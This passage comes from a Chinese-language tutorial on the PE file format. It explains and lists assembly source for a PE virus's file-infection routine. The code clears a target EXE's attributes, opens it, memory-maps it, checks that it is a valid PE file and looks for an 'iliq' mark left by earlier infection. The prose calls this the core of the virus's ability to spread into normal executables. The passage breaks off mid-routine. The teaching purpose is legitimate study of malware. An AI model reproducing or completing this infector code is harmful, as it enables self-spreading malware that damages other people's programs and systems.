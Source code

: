 ------

以上代码虽然很多，但都很简单，而且大部分的函数功能在第17章中都介绍过。

### 3.感染文件

==接下来的函数你看起来可能很眼熟，这是PE病毒具备传播性的最核心的部分，即向正常的EXE文件中写入病毒代码==。==写入方法和向PE程序最后一节写入代码的方法几乎是一模一样的，正是在这一部分，PE病毒补丁代码才具备了补丁工具的功能==。因为注释比较详细，相信你也可以很容易看懂。

------

```assembly
829 ;---------------------------------
830 ;指定感染文件
831 ;---------------------------------
832 _infect proc
833 ;获取文件名，清除文件属性
834 lea esi,[ebx+WFD_szFileName]
835 push 80h
836 push esi
837 call [ebx+_SetFileAttributesA]
838 call openFile
839 inc eax ;如果eax=-1，则打开文件出错
840 jz cannotOpen
841 dec eax
842 mov dword ptr [ebx+fileHandle],eax ;存储文件句柄
843 mov ecx,dword ptr [ebx+WFD_nFileSizeLow]
844 call createMap ;创建映射文件
845 or eax,eax
846 jz closeFile
847 mov dword ptr [ebx+mapHandle],eax
848 ;映射文件到内存
849 mov ecx,dword ptr [ebx+WFD_nFileSizeLow]
850 call mapFile
851 or eax,eax
852 jz unMapFile
853 mov dword ptr [ebx+mapAddress],eax
```

------

==行833～853打开目标PE文件，将文件属性设置为一般文件，并实施内存映射==。

------

```assembly
854
855
856
857 ;开始处理文件，判断文件是否为合法PE文件
858 mov esi,[eax+3ch]
859 add esi,eax
860 cmp dword ptr [esi],"EP" ;比较是否为"PE"
861 jnz noInfect
862
863 push esi
864 mov esi,dword ptr [ebx+mapAddress]
865 add esi,4
866 mov eax,dword ptr [esi]
867 pop esi
868
869 cmp eax,"iliq" ;判断是否被感染过
870 jz noInfect
```

